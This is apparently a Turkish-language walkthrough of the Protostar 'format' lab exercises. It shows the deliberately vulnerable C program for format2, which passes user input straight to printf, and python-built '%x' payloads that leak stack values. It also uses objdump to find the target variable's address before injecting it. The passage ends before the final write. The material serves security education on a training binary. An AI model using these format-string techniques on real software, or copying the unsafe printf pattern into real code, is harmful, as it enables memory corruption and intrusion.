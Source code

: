 ```bash
AAAA8�804960c bffff548 8048469 b7fd8304 b7fd7ff4 bffff548 8048435 bffff738 b7ff1040 804845b b7fd7ff4 8048450 0 bffff5c8 b7eadc76 2 bffff5f4 bffff600 b7fe1848 bffff5b0 ffffffff b7ffeff4 804824d 1 bffff5b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5c8 dc409ca9 f6124ab9 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff5f4 8048450 8048440 b7ff1040 bffff5ec b7fff8f8 2 bffff72e bffff738 0 bffff8e2 bffff8f7 bffff90e bffff926 bffff934 bffff948 bffff96b bffff982 bffff995 bffff99f bffffe8f bffffea8 bffffee6 bffffefa bfffff18 bfffff2f bfffff40 bfffff5b bfffff63 bfffff73 bfffff80 bfffffb5 bfffffc9 bfffffdd bfffffe9 0 20 b7fe2414 21 b7fe2000 10 78bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff70b 1f bffffff2 f bffff71b 0 0 d9000000 1e628f4e 39eb11d5 fe14f7e2 6983c355 363836 0 0 0 2f2e0000 6d726f66 317461 41414141  you have modified the target :)
```
Evet başarı mesajını aldık.
Bu soru için şuradaki çözüm çok daha akıcı ve güzel anlatılmış, izlemenizi tavsiye ederim. [Video için tıkla](https://www.youtube.com/watch?v=Y9HFs3J_9w4)

## Format 2
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```
Bu aşamada program çalıştıkta sonra bizden fgets ile bir input alıyor ve bu input ile target değişkenine 64 yazmamızı istiyor. Deneme yapmaya başlayalım:
```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "AAAA" + "%x "*10 ') | ./format2
AAAA200 b7fd8420 bffff524 41414141 25207825 78252078 20782520 25207825 78252078 20782520
target is 0 :(
```
4 tane A verdik ve ardından 10 tane de %x ekledik. Verdiğimiz A'lar dördüncü sırada ekrana basılmış.Peki şimdi target'ın adresini bulalım ve A lar yerine onları ekleyelim.
```bash
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss	00000004              target
user@protostar:/opt/protostar/bin$ 
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "\xe4\x96\x04\x08" + "%x "*10 ') | ./format2
��200 b7fd8420 bffff524 80496e4 25207825 78252078 20782520 25207825 78252078 20782520
target is 0 :(
```